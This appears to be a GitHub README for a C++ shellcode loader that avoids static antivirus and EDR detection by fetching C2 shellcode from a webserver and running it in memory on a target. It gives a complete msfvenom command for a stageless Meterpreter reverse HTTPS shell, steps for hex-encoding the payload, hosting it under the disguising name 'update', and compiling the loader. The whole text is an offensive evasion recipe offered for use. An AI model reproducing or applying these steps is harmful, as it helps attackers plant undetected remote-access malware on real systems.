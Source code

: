 # Create_Thread-Shellcode-Fetcher
Also if you use for example **syscalls (nativ APIs)** to execute C2-shellcode with a .exe, you often have the problem, that 
your **compiled .exe** gets **statically flagged by the AV/EPP/EDR**. Many times the reason for this is, that the **C2-shellcode** 
has to be directly **included as string or as a .bin ressource** in the c++ POC and by that the well known C2-shellcode 
(e.g. Metasploit-, CobaltStrike-, Empire Shellcode etc.) is statically flagged by the AV/EPP/EDR. 
This means, no matter which clever technique you would use to bypass prevention/detection in context of API-Hooking, Kernel Callback Function etc. 
your .exe POC will get flagged before you can ever execute it. Also if you want to **compile a c++ POC** in Visual Studio it isn't possible to **include stageless shellcode** in a char string, because the string is **limited in length** (always stay stageless if possible 😉). 

From my experience, depending on the AV/EPP/EDR it isn't often the most important thing to only care about how to bypass the dynamically prevention/detection of an AV/EPP/EDR. At least equally important is to care about how could I bypass the statically prevetion/detection, to maybe break the chain of a maybe following connected dynamicall or in-memory prevention/detection. 

**This POC gives you the possibility to compile a .exe to completely avoid statically detection by AV/EPP/EDR of your C2-shellcode and download and execute your C2-shellcode which is hosted on your (C2)-webserver.**

![image](https://user-images.githubusercontent.com/50073731/160274700-173f342f-1fd8-4080-8e78-d832129a99c6.png)

By that POC we have the advantage, that the shellcode for the C2 reverse shell isn't included as string or as .bin file in the POC.
Trough that, we don't have the problem of statically detection of the C2 shellcode by an AV/EPP/EDR, because the complete C2-shellcode is hosted 
on a webserver. 



**1. Creating stageless shellcode with MSF-Venom**

**kali>** msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.0.1 LPORT=443 -f c --arch x64 --platform windows -o /tmp/meterx64.c

![image](https://user-images.githubusercontent.com/50073731/160274011-82fd0f13-a52c-4f90-93bd-01d39a9872d9.png)



**2. Hosting file with MSF-stageless shellcode on webserver**

Based on the code in the c++ POC the hosted shellcode must be in HEX-Format. To bring the whole MSF-shellcode in one line, you can use the
the line operation function in Notpad++ join lines and then remove not spaces and the double quotes in the string. Only at the beginning and the end
we need from the HEX-shellcode string we need double quotes.

![image](https://user-images.githubusercontent.com/50073731/160274172-4a793332-db0d-465f-b6e9-aa3cf024c8a3.png)

![image](https://user-images.githubusercontent.com/50073731/160843980-56d60e17-de71-4505-a847-4fa1d3f51032.png)

![image](https://user-images.githubusercontent.com/50073731/160844266-8a9b2e0c-1bcb-4122-97aa-6eca529e9d46.png)

At the end you can save the file with the stageless MSF-shellcode as a file without any filetype ending, we call it for example **update** and then upload the MSF-Shellcode File on your webserver of choice. 

**3. Change the link in the c++ POC to your MSF-payload**
In this step we change the link in the POC to the link of the webserver on which we have hosted our stageless MSF-Shellcode and compile
it in **Visual Studio as Release x64**.

![image](https://user-images.githubusercontent.com/50073731/160274705-7c608ab1-1137-4f0f-8152-8a722de6a270.png)

**After compiling with VS you have a x64 Binary, which do not contain any C2-shellcode string or .bin file at all. After execution 
the C2-shellcode is downloaded and executed in the memory of the targeted host.** 
At the moment the execution of the shellcode by using Create Thread is done with WIN32 APIs.
But despite not using syscalls, the POC will do a nice job 😉.
